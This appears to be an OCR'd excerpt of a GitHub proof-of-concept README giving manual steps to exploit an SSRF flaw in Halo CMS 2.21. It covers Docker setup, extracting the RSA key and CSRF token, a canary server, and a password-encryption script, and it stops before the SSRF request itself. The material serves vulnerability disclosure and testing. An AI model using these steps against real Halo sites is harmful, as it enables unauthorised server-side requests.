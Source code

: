 ### Manual Exploitation (Step-by-Step)

For manual testing without automated scripts, follow these commands:

#### Step 1: Start Halo CMS Instance

```bash
# Start Halo with Docker networking for testing
docker run --add-host=host.docker.internal:host-gateway -d -p 8090:8090 halohub/halo:2.21

# Wait for startup (check logs)
docker logs -f <container_id>
```

#### Step 2: Create User Account and Authenticate

```bash
# Setup Halo via web interface first:
# 1. Visit http://localhost:8090 
# 2. Complete initial setup
# 3. Create admin user account
# 4. Note username/password for API access
```

#### Step 3: Extract RSA Public Key

```bash
# Get RSA public key for password encryption
curl -s "http://localhost:8090/login/rsa-public-key" | jq -r '.publicKey' > public_key.txt

# Or extract from login page JavaScript if needed
curl -s "http://localhost:8090/console" | grep -oP 'publicKey.*?"([^"]+)"' | cut -d'"' -f3
```

#### Step 4: Set Up Canary Server for SSRF Proof

```bash
# Terminal 1: Start canary server on port 8889
echo "SSRF_UPLOAD_SUCCESS" > /tmp/upload-canary.txt
python3 -m http.server 8889 --directory /tmp

# You should see: Serving HTTP on 0.0.0.0 port 8889...
```

#### Step 5: Manual Authentication Process

```bash
# Get CSRF token from login page
CSRF_TOKEN=$(curl -s -c cookies.txt "http://localhost:8090/console" | grep -oP 'name="_csrf" value="\K[^"]+')

# Encrypt password using RSA public key (requires Python script)
cat > encrypt_password.py << 'EOF'
import base64, sys
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.asymmetric import padding

password = sys.argv[1]
pub_key_b64 = sys.argv[2]

pub_key_bytes = base64.b64decode(pub_key_b64)
pub_key = serialization.load_der_public_key(pub_key_bytes)
encrypted = pub_key.encrypt(password.encode(), padding.OAEP(
    mgf=padding.MGF1(algorithm=hashes.SHA256()),
    algorithm=hashes.SHA256(), label=None
))
print(base64.b64encode(encrypted).decode())
EOF
```